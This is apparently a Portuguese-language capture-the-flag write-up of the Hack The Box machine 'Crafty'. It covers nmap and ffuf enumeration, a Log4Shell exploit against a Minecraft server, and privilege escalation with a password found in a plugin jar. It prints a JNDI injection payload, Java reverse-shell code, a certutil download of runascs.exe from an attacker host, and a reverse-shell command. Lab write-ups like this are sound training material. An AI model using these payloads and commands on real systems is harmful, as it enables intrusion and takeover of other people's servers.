

{: w="100" h="100" .left}

---
# **CTF - Crafty**
---
---
## **Enumeração**

### nmap

```shell
╭─      ~/HTB/crafty       
╰─ sudo nmap -sV -Pn -sS --min-rate 5000 -stats-every 5 -p- -oN nmap 10.10.11.249
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-10 18:52 -03
Nmap scan report for 10.10.11.249
Host is up (1.2s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 3/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.16 seconds
```
{: .nolineno }


Domínios adicionados ao /etc/hosts  
`crafty.htb`  
`play.crafty.htb`

### ffuf
```shell
╭─      ~/HTB/crafty  
╰─ ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -t 200 -u http://crafty.htb/FUZZ -e .html,.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://crafty.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
 :: Extensions       : .html .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

Home                    [Status: 200, Size: 1826, Words: 99, Lines: 59, Duration: 500ms]
Index.html              [Status: 301, Size: 145, Words: 9, Lines: 2, Duration: 1050ms]
coming-soon             [Status: 200, Size: 1206, Words: 74, Lines: 36, Duration: 377ms]
coming-soon.html        [Status: 301, Size: 152, Words: 9, Lines: 2, Duration: 423ms]
css                     [Status: 301, Size: 145, Words: 9, Lines: 2, Duration: 461ms]
home                    [Status: 200, Size: 1826, Words: 99, Lines: 59, Duration: 325ms]
img                     [Status: 301, Size: 145, Words: 9, Lines: 2, Duration: 322ms]
index.html              [Status: 301, Size: 145, Words: 9, Lines: 2, Duration: 359ms]
js                      [Status: 301, Size: 144, Words: 9, Lines: 2, Duration: 365ms]
:: Progress: [61428/61428] :: Job [1/1] :: 769 req/sec :: Duration: [0:02:08] :: Errors: 0 ::
```
{: .nolineno }
Busca por subdomínios em `crafty.htb` e diretórios em `play.crafty.htb` com FFUF sem retorno.

Essa versão do minecraft é vulnerável a log4j
Esse video me ajudou entender como tudo funciona.



Gastei horas procurando versão free do Minecraft até que reclamei no forum e me deram uma luz sobre o [TLauncher](https://tlauncher.org/en/) do minecraft.

## **Acesso/FootHold**

Escolhi a mesma versão do server, retornada pelo nmap.  
  

### Exploit  
<https://github.com/kozmer/log4j-shell-poc>  
Precisa ter o Java 8 exatamente essa versão
jdk-8u20-linux-x64.tar.gz.  
Baixe de acordo com seu sistema [aqui](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html) tem que criar conta.  
Extrair na pasta do exploit.  
Editei o `poc.py` pois temos uma máquina windows como vitima,
Onde esta `/bin/sh` mude para `cmd.exe` ou `powershell.exe`

```python
public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
```
{: .nolineno }

  

Executei o exploit da seguinte forma:
 
 `python3 poc.py --userip SEUIP --webport 8888 --lport 4445`  
 `--webport` a porta que vai criar um servidor http para vitima baixar o exploit após execução do comando no minecraft  
`--lport` a porta que você irá listar com o netcat  

No minecraft usei esse comando no chat

`${jndi:ldap://10.10.16.62:1389/a}`


### Primeira Flag


## **Exploração**

Chequei diversos arquivos na pasta do server

```shell
c:\Users\svc_minecraft\server>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is C419-63F6
C:.
|   banned-ips.json
|   banned-players.json
|   eula.txt
|   ops.json
|   server.jar
|   server.properties
|   usercache.json
|   whitelist.json
|   
+---logs
|       2023-10-24-1.log.gz
|       2023-10-24-2.log.gz
|       2023-10-24-3.log.gz
|       2023-10-24-4.log.gz
|       2023-10-26-1.log.gz
|       2023-10-28-1.log.gz
|       2023-10-28-2.log.gz
|       2023-11-14-1.log.gz
|       2023-11-14-2.log.gz
|       2023-11-14-3.log.gz
|       2023-11-14-4.log.gz
|       2023-11-21-1.log.gz
|       2023-11-21-2.log.gz
|       2023-11-21-3.log.gz
|       2023-11-21-4.log.gz
|       2023-11-22-1.log.gz
|       2023-11-22-2.log.gz
|       2023-11-22-3.log.gz
|       2024-02-05-1.log.gz
|       2024-02-05-2.log.gz
|       2024-02-05-3.log.gz
|       2024-02-05-4.log.gz
|       2024-02-05-5.log.gz
|       2024-02-06-1.log.gz
|       2024-02-06-2.log.gz
|       2024-02-06-3.log.gz
|       latest.log
|       
+---plugins
|       playercounter-1.0-SNAPSHOT.jar
|       
\---world
    |   level.dat
    |   level.dat_old
    |   session.lock
    |   
    +---data
    |       raids.dat
    |       
    +---datapacks
    +---DIM-1
    |   \---data
    |           raids.dat
    |           
    +---DIM1
    |   \---data
    |           raids_end.dat
    |           
    +---playerdata
    +---poi
    |       r.-1.-1.mca
    |       r.-1.0.mca
    |       r.0.-1.mca
    |       r.0.0.mca
    |       
    \---region
            r.-1.-1.mca
            r.-1.0.mca
            r.0.-1.mca
            r.0.0.mca
            r.1.-1.mca
            r.1.0.mca
```
{: .nolineno }
### plugins em formato jar
copiei o `playercounter-1.0-SNAPSHOT.jar` para pasta documents
então lá descompactei, mas antes procurei onde estava o jar em Program Files e adicionei ao path pra ficar mais fácil executar o comando.

```shell
c:\Program Files\Java\jdk1.8.0_171\bin>set PATH=%PATH%;c:\Program Files\Java\jdk1.8.0_171\bin
set PATH=%PATH%;c:\Program Files\Java\jdk1.8.0_171\bin
```
{: .nolineno }
descompactei com `jar -xf plug.jar`

```shell
c:\Users\svc_minecraft\Documents>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is C419-63F6
C:.
|   plug.jar
|   plug.zip
|   plugin.yml
|   
+---htb
|   \---crafty
|       \---playercounter
|               Playercounter.class
|               
+---META-INF
|   |   MANIFEST.MF
|   |   
|   \---maven
|       +---htb.crafty
|       |   \---playercounter
|       |           pom.properties
|       |           pom.xml
|       |           
|       \---net.kronos.rkon.core
|           \---rkon-core
|                   pom.properties
|                   pom.xml
|                   
\---net
    \---kronos
        \---rkon
            \---core
                |   Rcon.class
                |   RconPacket.class
                |   
                \---ex
                        AuthenticationException.class
                        MalformedPacketException.class
```
{: .nolineno }         

## **Escalação Privilégio**

Alguns type depois suspeitei que isso fosse uma senha.


Download do runascs.exe e execução de comando whoami, pra testar se é a senha de admin mesmo.

```shell
c:\Users\svc_minecraft\Documents>certutil -f -urlcache http://10.10.14.126/runascs.exe run.exe
certutil -f -urlcache http://10.10.14.126/runascs.exe run.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
c:\Users\svc_minecraft\Documents>run.exe administrator s67u84zKq8IXw "cmd /c whoami" 
run.exe administrator s67u84zKq8IXw "cmd /c whoami" 

crafty\administrator
```
{: .nolineno }
Confirmado que é a senha do admin, executei uma reverse shell com runascs.exe

`c:\Users\svc_minecraft\Documents>run.exe administrator s67u84zKq8IXw cmd.exe -r 10.10.14:126:4446`


### Segunda Flag


**Conhecimentos adiquiridos:**
- log4j
- execução do exploit log4j como funciona.

